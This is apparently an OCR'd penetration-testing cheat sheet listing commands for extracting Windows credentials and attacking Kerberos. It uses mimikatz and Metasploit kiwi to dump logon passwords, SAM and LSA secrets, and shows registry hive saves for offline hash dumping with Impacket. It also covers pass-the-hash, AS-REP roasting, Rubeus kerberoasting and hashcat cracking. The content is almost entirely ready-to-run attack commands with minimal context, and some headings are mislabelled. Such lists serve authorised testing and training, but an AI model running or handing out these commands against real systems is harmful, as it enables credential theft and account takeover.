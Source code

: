 # Password Extraction

### mimikatz

Need to match architecture

```
privilege::debug
20 ‘OK’

sekurlsa::logonPasswords
lsadump::sam
lsadump::lsa /patch
lsadump::secrets
kerberos::list

mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"
```

### Metasploit

```
load kiwi

creds_all
lsa_dump_lsa
lsa_dump_secrets
kerberos_list
```

## Kerberoasting

### Impacket

Get a copy of the SYSTEM, SECURITY and SAM hives and download them back to your local system.

```
C:> reg.exe save hklm\sam c:\windows\temp\sam.save
C:> reg.exe save hklm\security c:\windows\temp\security.save
C:> reg.exe save hklm\system c:\windows\temp\system.save

$ secretsdump.py -sam sam.save -security security.save -system system.save LOCAL

impacket-secretsdump backup@spookysec.local # requires password for user
impacket-secretsdump Administrator@10.11.1.1 -hashes 'NTLM:NTLM'
impacket-GetNPUsers spookysec.local/ -usersfile usernames.txt -format hashcat # Requires "Does not require Pre-Authentication" be set
```

### Rubeus

```
.\Rubeus.exe kerberoast
hashcat -m 13100 -a 0 hash /usr/share/wordlists/rockyou.txt --force
```

#### Cracking passwords

```
hashcat -m 13100 --force <TGSs_file> /usr/share/wordlists/rockyou.txt
```
